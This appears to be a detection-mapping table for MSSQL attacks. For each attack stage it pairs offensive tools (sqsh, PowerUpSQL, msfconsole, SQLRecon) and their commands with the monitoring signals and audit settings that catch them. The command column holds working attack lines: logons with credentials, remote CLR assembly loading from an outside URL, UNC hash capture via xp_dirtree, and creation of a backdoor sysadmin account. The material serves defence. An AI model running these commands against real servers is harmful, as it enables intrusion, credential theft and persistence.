

Documentation
| Category | Tool | Command | Monitoring | Config Scope | Config |
| --- | --- | --- | --- | --- | --- |
| Initial Access | sqsh | sqsh -S 192.168.3.22 -U corp1\\tboss -P admin123! | Linked to other detections. | Server | GUI based config for server logons |
| Discovery | sqsh | select sysobjects.name from sysobjects where name like '%mail%' | Database - Query - sysobjects - mail | MASTER DATABASE AUDIT | ADD (SELECT ON OBJECT::[sys].[sysobjects] BY [dbo]) |
| Discovery | msfconsole | use auxiliary/admin/mssql/mssql\_enum | Database - Query - sys.configurations Database - Stored Procedure - xp\_regread Database - Query - master..sysdatabases Database - Query - sys.syslogins | MASTER DATABASE AUDIT | ADD (SELECT ON OBJECT::[sys].[configurations] BY [dbo]) ADD (EXECUTE ON OBJECT::[dbo].[xp\_regread] BY [dbo]) ADD (SELECT ON OBJECT::[sys].[sysdatabases] BY [dbo]) ADD (SELECT ON OBJECT::[sys].[sql\_logins] BY [dbo]) |
| Discovery | sqsh | select \* from sys.database\_principals; | Database - Query - sys.database\_principals | MASTER DATABASE AUDIT | ADD (SELECT ON OBJECT::[sys].[database\_principals] BY [dbo]) |
| Discovery | PowerUpSQL | Invoke-SQLDumpInfo -Verbose -Instance "192.168.3.22,1433" | Database - Query - sys.database\_principals Database - Query - sys.configurations Database - Query - sys.server\_principals Database - Stored Procedure Execution - xp\_regread | MASTER DATABASE AUDIT | ADD (SELECT ON OBJECT::[sys].[database\_principals] BY [dbo]) ADD (SELECT ON OBJECT::[sys].[configurations] BY [dbo]) ADD (SELECT ON OBJECT::[sys].[server\_principals] BY [dbo]) ADD (EXECUTE ON OBJECT::[dbo].[xp\_regread] BY [dbo]) |
| Discovery | PowerUpSQL | Get-SQLDomainController -Instance "192.168.3.22,1433" | Database - Query - sys.servers Database - Stored Procedure Execution - xp\_regread | MASTER DATABASE AUDIT | ADD (SELECT ON OBJECT::[sys].[sysservers] BY [dbo]) ADD (EXECUTE ON OBJECT::[dbo].[xp\_regread] BY [dbo]) |
| Discovery | sqsh | select loginname from master.sys.syslogins | Database - Query - sys.syslogins | MASTER DATABASE AUDIT | ADD (SELECT ON OBJECT::[sys].[sql\_logins] BY [dbo]) |
| Discovery | sqsh | EXECUTE master.sys.xp\_regread 'HKEY\_LOCAL\_MACHINE', 'SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest', 'UseLogonCredential'; | Database - Stored Procedure Execution - xp\_regread | MASTER DATABASE AUDIT | ADD (EXECUTE ON OBJECT::[dbo].[xp\_regread] BY [dbo]) |
| Discovery | PowerUpSQL | Get-SQLServerInfo -Verbose -Instance "192.168.3.22,1433" | Database - Stored Procedure Execution - xp\_regread | MASTER DATABASE AUDIT | ADD (EXECUTE ON OBJECT::[dbo].[xp\_regread] BY [dbo]) |
| Execution | PowerUpSQL | Invoke-SQLOSCmdOle -Verbose -Command "nltest" -Instance "192.168.3.22,1433" | Database - Config Changed - sp\_configure - ole automation Database - Stored Procedure Execution - sp\_oacreate wscript | MASTER DATABASE AUDIT | ADD (EXECUTE ON OBJECT::[dbo].[Sp\_oacreate] BY [dbo]) ADD (EXECUTE ON OBJECT::[dbo].[sp\_configure] BY [dbo]) |
| Credential Access | PowerUpSQL | Invoke-SQLAuditWeakLoginPw -Verbose -Instance "192.168.3.22,1433" | Database - Query - sys.server\_principals Database - User Enumeration Server - Internal User Enumeration | MASTER DATABASE AUDIT | ADD (SELECT ON OBJECT::[sys].[server\_principals] BY [dbo]) |
| Credential Access | PowerUpSQL | Get-SQLAgentJob -Verbose -Instance "192.168.3.22,1433" | Database - Query - sysprocesses - SQL Agent Database - Query - sysjobs - Job Enumeration | MSDB DATABASE AUDIT | ADD (EXECUTE ON OBJECT::[dbo].[sp\_add\_job] BY [dbo]) ADD (SELECT ON OBJECT::[dbo].[sysjobs] BY [dbo]) |
| Execution | sqsh | EXEC sp\_addsrvrolemember 'hacker12345', 'sysadmin' | Database - Stored Procedure - sp\_addsrvrolemember | MASTER DATABASE AUDIT |  |
| Execution | SQLRecon | SQLRecon.exe -a Windows -s 192.168.3.22 -m clr -o https://www.seamlessintelligence.com.au/hax/sql4.dll -f CustomFunctionName | Database - Stored Procedure Execution - sp\_add\_trusted\_assembly | MASTER DATABASE AUDIT | ADD (EXECUTE ON OBJECT::[dbo].[sp\_add\_trusted\_assembly] BY [dbo]) |
| Privilege Escalation | sqsh | exec master.dbo.xp\_dirtree '\\10.1.1.60\any\thing' | Database - Stored Procedure Execution - xp\_dirtree | MASTER DATABASE AUDIT | ADD (EXECUTE ON OBJECT::[dbo].[xp\_dirtree] BY [dbo]) |
| Persistence | sqsh | CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';EXEC sp\_addsrvrolemember 'hacker', 'sysadmin' | Database - Local Account Creation Database - Stored Procedure Execution - sp\_addsrvrolemember | MASTER DATABASE AUDIT | ADD (EXECUTE ON OBJECT::[dbo].[sp\_addsrvrolemember] BY [dbo]) |